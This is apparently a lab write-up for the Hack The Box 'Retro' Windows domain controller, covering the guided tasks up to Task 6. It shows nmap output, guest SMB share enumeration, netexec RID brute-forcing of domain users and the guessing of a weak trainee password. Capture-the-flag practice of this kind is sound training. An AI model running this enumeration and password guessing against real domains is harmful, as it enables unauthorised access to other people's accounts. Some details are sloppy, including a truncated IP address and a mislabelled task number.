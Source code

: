 ![[Pasted image 20250705213732.png]]

### Guided Mode
### Task 1 - What is the Fully Qualified Domain Name (FQDN) of the Domain Controller in Retro?

Firtst let's add the machine to our hosts file. 
```
echo "10.129.196.125 retro.htb" >> /etc/hosts
```

Now let's perform our nmap scan. Per my usual 
```
nmap -sV -sC -Pn -T4 10.129.196.125
```

`Host is up (0.12s latency).`
`Not shown: 988 filtered tcp ports (no-response)`
`PORT     STATE SERVICE       VERSION`
`53/tcp   open  domain        Simple DNS Plus`
`88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-06 01:32:43Z)`
`135/tcp  open  msrpc         Microsoft Windows RPC`
`139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn`
`389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)`
`|_ssl-date: TLS randomness does not represent time`
`| ssl-cert: Subject: commonName=DC.retro.vl`
`| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl`
`| Not valid before: 2024-10-02T10:33:09`
`|_Not valid after:  2025-10-02T10:33:09`
`445/tcp  open  microsoft-ds?`
`464/tcp  open  kpasswd5?`
`593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0`
`636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)`
`| ssl-cert: Subject: commonName=DC.retro.vl`
`| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl`
`| Not valid before: 2024-10-02T10:33:09`
`|_Not valid after:  2025-10-02T10:33:09`
`|_ssl-date: TLS randomness does not represent time`
`3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)`
`| ssl-cert: Subject: commonName=DC.retro.vl`
`| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl`
`| Not valid before: 2024-10-02T10:33:09`
`|_Not valid after:  2025-10-02T10:33:09`
`|_ssl-date: TLS randomness does not represent time`
`3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)`
`| ssl-cert: Subject: commonName=DC.retro.vl`
`| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.retro.vl`
`| Not valid before: 2024-10-02T10:33:09`
`|_Not valid after:  2025-10-02T10:33:09`
`|_ssl-date: TLS randomness does not represent time`
`3389/tcp open  ms-wbt-server Microsoft Terminal Services`
`|_ssl-date: 2025-07-06T01:34:03+00:00; 0s from scanner time.`
`| rdp-ntlm-info:`
`|   Target_Name: RETRO`
`|   NetBIOS_Domain_Name: RETRO`
`|   NetBIOS_Computer_Name: DC`
`|   DNS_Domain_Name: retro.vl`
`|   DNS_Computer_Name: DC.retro.vl`
`|   Product_Version: 10.0.20348`
`|_  System_Time: 2025-07-06T01:33:23+00:00`
`| ssl-cert: Subject: commonName=DC.retro.vl`
`| Not valid before: 2025-04-08T01:55:44`
`|_Not valid after:  2025-10-08T01:55:44`
`Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows`

`Host script results:`
`| smb2-security-mode:`
`|   3.1.1:`
`|_    Message signing enabled and required`
`| smb2-time:`
`|   date: 2025-07-06T01:33:26`
`|_  start_date: N/A`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 100.55 seconds`
`~/hackthebox/Retro >`

So to answer our question **task 1** DC.retro.vl
Let's add this to /etc/hosts
```
echo 10.129.196.125 DC.retro.vl >> /etc/hosts

and for safe measure

echo 129.196.125 retro.vl >> /etc/hosts
```

#### Task 2 - What is the non-default SMB share which is readable with the guest account?

So from our nmap we can see 445 open so let's connect anonymously.
```
smbclient -L \\10.129.196.125\ 
```

![[Pasted image 20250705215111.png]]

So **task 2**: Trainees

#### Task 3: What is the account name that is referenced in `Important.txt`?

So now let's login via our anonymous account to the share

```
smbclient \\\\\\10.129.196.125\\Trainees -U 'guest'
```

![[Pasted image 20250705215450.png]]

![[Pasted image 20250705220254.png]]
... so there seems to be no clear indication of a "username" located here. Let's enumerate the smb server via rid-brute since we have guest access.

```
~ > netexec smb 10.129.234.44 -u guest -p '' --rid-brute                                  22:18:48

SMB         10.129.234.44   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.44   445    DC               [+] retro.vl\guest:
SMB         10.129.234.44   445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.129.234.44   445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.129.234.44   445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.129.234.44   445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.129.234.44   445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.129.234.44   445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.129.234.44   445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.129.234.44   445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.44   445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.44   445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.129.234.44   445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.44   445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.44   445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.44   445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.44   445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.129.234.44   445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.129.234.44   445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.44   445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.129.234.44   445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.129.234.44   445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.129.234.44   445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.129.234.44   445    DC               1109: RETRO\tblack (SidTypeUser)
```

So from the e-mail and seeing "trainee" here I'm going to infer that's the answer to **task 3** which is correct.

#### Task 4 - What is the trainee user's password?

So since all passwords are the same (via important.txt,) this is an easy box, and I know I've ran into admin:admin countless times, for the sake of throwing spaghetti at the wall to see what stuck, tried the password trainee... and well.. **task 5** answer is trainee

#### Task 5 - What is the name of the share that the trainee account can access that guest could not?

```
~ > nxc smb 10.129.196.125 -u trainee -p trainee --shares                                 22:33:50
SMB         10.129.196.125  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.129.196.125  445    DC               [+] retro.vl\trainee:trainee
SMB         10.129.196.125  445    DC               [*] Enumerated shares
SMB         10.129.196.125  445    DC               Share           Permissions     Remark
SMB         10.129.196.125  445    DC               -----           -----------     ------
SMB         10.129.196.125  445    DC               ADMIN$                          Remote Admin
SMB         10.129.196.125  445    DC               C$                              Default share
SMB         10.129.196.125  445    DC               IPC$            READ            Remote IPC
SMB         10.129.196.125  445    DC               NETLOGON        READ            Logon server share
SMB         10.129.196.125  445    DC               Notes           READ
SMB         10.129.196.125  445    DC               SYSVOL          READ            Logon server share
SMB         10.129.196.125  445    DC               Trainees        READ
```

So our answer for **task 5** is Notes. Connecting to this share will reveal our first flag.
![[Pasted image 20250705223907.png]]

Enter user.txt flag and let's continue.

#### Task 6 - What is the name of the old machine account that has pre-windows-2000 compatibility?

